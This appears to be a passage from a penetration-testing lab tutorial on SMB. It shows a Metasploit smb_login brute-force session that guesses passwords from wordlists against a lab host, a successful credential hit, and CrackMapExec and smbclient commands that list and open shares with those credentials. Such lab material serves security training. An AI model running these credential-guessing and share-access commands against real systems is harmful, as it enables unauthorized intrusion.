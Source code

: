  ```shell-session
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


Now we can use `CrackMapExec` again to view the available shares and what privileges we have for them.
## CrackMapExec
```shell-session
canklesmaks@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
To communicate with the server via SMB, we can use, for example, the tool [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).
```shell-session
canklesmaks@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```
